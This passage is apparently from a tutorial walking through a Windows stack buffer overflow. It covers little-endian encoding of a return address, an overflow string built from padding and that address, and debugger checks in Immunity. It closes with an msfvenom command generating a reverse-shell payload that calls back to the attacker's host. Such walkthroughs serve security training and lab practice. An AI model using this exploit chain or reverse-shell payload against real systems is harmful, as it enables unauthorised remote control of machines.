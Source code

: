   
Once we have discovered an address we would like to use we need to convert it into bytes for our python code to read. we also need to determine the [endianness](https://en.wikipedia.org/wiki/Endianness) of the program. In short if the system uses big endian, the stack gets filled from the top to the bottom and little endian is filled from the bottom towards the top.![](en-cache://tokenKey%3D%22AuthToken%3AUser%3A174687877%22+3f51bb24-85f9-466b-7bd5-a875449bb09d+e2d59912799812fdf800a3d6d5fd3865+https://www.evernote.com/shard/s743/res/6d62508c-ca60-f448-dd25-8e1b25d284a0)

![](.gitbook/assets/image.png)

So how does this affect us?

If we have an address of **0x625011AF**

if we convert it to Little Endian it will look like: **\xAF\x11\x50\x62**

And if we convert it to Big Endian it will look like: **\x62\x50\x11\xAF**

```text
retrn = "\xAF\x11\x50\x62"
```

{% hint style="danger" %}
**Once we have added the address into our return pointer in python we can then run the program and set a breakpoint \(F2 in immunity\) on our address\(ctrl + g to search for the address in immunity\). Running our exploit will stop the program on our address and we can then follow the steps \(F7 in immunity\) to make sure our return address stored in EIP directs us to our payload \(which should be in ESP :\)**
{% endhint %}

```text
fuzz = "A" * offset + retrn + "C" * (3000 - 4 - offset)
```

### 5. Creating Payload

Once we are sure that our code is working and redirecting execution to our payload. we can then go ahead and create our payload to grant us a reverse shell.  
kali:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -a x86 --platform windows -b "\x00\x23\x3c\x83\xba" -f py
```
